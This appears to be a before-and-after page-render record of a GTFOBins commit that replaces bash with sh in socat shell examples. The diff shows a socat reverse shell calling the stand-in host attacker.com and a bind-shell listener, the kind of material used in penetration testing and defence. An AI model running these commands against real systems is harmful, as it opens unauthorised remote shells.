

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/socat.md, in a window 1280 px wide. Shown: the part 209-599 px from the top of the page, without its empty margins (208-1010 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Remove hardcoded instances of bash

```diff
--- a/_gtfobins/socat.md
+++ b/_gtfobins/socat.md
@@ -5,10 +5,10 @@ functions:
       code: |
         RHOST=attacker.com
         RPORT=12345
-        socat tcp-connect:$RHOST:$RPORT exec:"bash -li",pty,stderr,setsid,sigint,sane
+        socat tcp-connect:$RHOST:$RPORT exec:sh,pty,stderr,setsid,sigint,sane
   bind-shell-interactive:
     - description: Run <code>socat FILE:`tty`,raw,echo=0 TCP:target.com:12345</code> on the attacker box to connect to the shell.
       code: |
         LPORT=12345
-        socat TCP-LISTEN:$LPORT,reuseaddr,fork EXEC:bash,pty,stderr,setsid,sigint,sane
+        socat TCP-LISTEN:$LPORT,reuseaddr,fork EXEC:sh,pty,stderr,setsid,sigint,sane
 ---
```
Also changed, not shown: _gtfobins/ssh.md (+1 -1 lines), _gtfobins/telnet.md (+1 -1 lines).
